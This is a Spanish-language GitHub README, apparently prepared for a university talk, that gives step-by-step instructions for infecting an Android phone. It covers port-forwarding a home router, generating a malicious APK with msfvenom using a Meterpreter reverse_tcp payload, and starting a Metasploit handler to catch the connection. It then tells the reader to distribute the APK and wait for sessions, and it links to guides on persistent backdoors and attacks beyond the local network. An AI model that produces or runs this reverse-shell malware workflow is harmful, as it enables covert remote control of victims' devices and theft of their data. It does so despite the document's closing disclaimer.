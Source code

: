 #Android Invaders - Prueba de concepto

![Logo](images/logo.png)

Pequeño tutorial de como lanzar un ataque a un móvil de Android (o a Windows) creando un APK o archivo EXE a través del cual la máquina o móvil infectada se conectará remotamente a la máquina del atacante, abriendo una conexión y permitiendo al atacante obtener información o realizar acciones en la máquina o móvil vulnerada.

**Pruebas y tutorial realizado por:** Juan Antonio Velasco Gómez [@juanvelascogomez](https://github.com/juanvelascogomez).

##Preparando el ataque

Información sobre router:

  **Dirección pública:** Se puede consultar a través de la página web [cual-es-mi-ip](www.cual-es-mi-ip.net).

  **Dirección IP local:** 192.168.1.13

  Lo primero que hice fue un reenvío de puertos entrando en el router de casa a través de la dirección 192.168.1.1. Una vez dentro, en configuraciones avanzadas, activé el puerto **5555** para que se redirigiese a la dirección IP local de Kali linux.

![Reenvio puertos](images/Router.png)

##Creación del apk malicioso

  A continuación tenemos que crear el apk malicioso. Para ello tenemos que hacer uso de la herramienta de metasploit **msfvenom**.

  Para Android

      msfvenom -p android/meterpreter/reverse_tcp LHOST=direccion_ip LPORT=5555 R> apkmalicioso.apk

![Creacion del apk malicioso](images/apkmalicioso.png)

##Preparando el servidor del atacante

  Después de esto tenemos que dirigirnos al framework **metasploit** a ejecutar el servidor del atacante, para ello hacemos lo siguiente:

    use multi/handler
    set PAYLOAD android/meterpreter/reverse_tcp
    set LHOST 192.168.1.13
    set LPORT 5555

  Comprobamos que todo está correcto con *show options* y lanzamos el servidor

    exploit -j

  *El comando -j permite más de una conexión al servidor*

  Será la víctima la que se conecte a nosotros puesto que el PAYLOAD que hemos seleccionado es reverse_tcp. Si somos nosotros quien quiere conectarse a la víctima existe otro PAYLOAD llamado bind_tcp que lo hace. En vez de apuntar el LHOST, tendríamos que apuntar RHOST (dirección de la víctima), pero ésta normalmente es desconocida.

  A partir de ahí se trata de **distribuir el apk** y esperar la conexión a esas sesiones de meterpreter.

  Algunos comandos que se pueden usar una vez que conseguimos la sesión de meterpreter

![Algunos comandos interesantes](images/algunosComandos.png)

##Algunos videos y enlaces útiles

  2. Crear un [backdoor](http://null-byte.wonderhowto.com/how-to/create-persistent-back-door-android-using-kali-linux-0161280/). **Nota:** He comprobado que una vez que el usuario borra el apk estando la sesión abierta de meterpreter, esta se borra. Se desconecta. Sería interesante agregar algo para crear un backdoor en el dispositivo.

  3. Ataques fuera de LAN --> Uso de [NoIP](NOIP.md)

  4. [ISO](http://www.osboxes.org/android-x86/#android-x86-4_4-r2-vmware) de Android para VMWare

##Notas del autor

Este tutorial fue realizado para una charla informativa para la Universidad de Granada, el autor o autores de él no se hacen responsables del mal uso que se pueda dar. Sed buenos. }:)
